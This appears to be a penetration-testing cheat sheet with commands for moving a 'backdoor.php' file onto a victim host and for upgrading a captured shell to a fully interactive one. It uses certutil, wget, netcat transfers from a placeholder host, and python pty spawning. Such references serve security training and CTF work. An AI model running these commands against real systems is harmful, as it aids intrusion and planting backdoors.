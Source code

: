 ## Transfer files

```sh
# Start web server
python3 -m http.server 8080
python2 -m SimpleHTTPServer 8080
php -S 127.0.0.1:8080

# Download (HTTP Windows)
certutil -urlcache -f http://<host>/backdoor.php backdoor.php
# Download (HTTP Linux)
wget http://<host>/backdoor.php

# Netcat [useful when the victim cannot reach you, but you can]
nc -nvlp <target_port> > backdoor.php         # [recepient]
nc -w 3 <ip> <target_port> < backdoor.php     # [sender]

# With base64
cat file | base64 -w 0 # get base64 [output is a single continuous line]
echo <output_base64> | base64 -d > file # create file

# Tips
# 1 tip - Progress Indicator in netcat
pv backdoor.php | nc -w 3 <ip> <target_port> # [sender] (install pv)
# 2 tip - Check md5
md5sum backdoor.php

# Note: netcat "-n" option means no DNS (only IP)
```

## \[Fully] interactive shell

**Interactive shell**

```sh
/bin/bash -i # Linux
```

**Fully interactive shell**

```sh
# 1 Step
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'

# 2 Step
CTRL + Z # Press CTRL + Z to background process and get back to your host machine

# 3 Step
stty raw -echo; fg

# 4 Step
export TERM=xterm
```

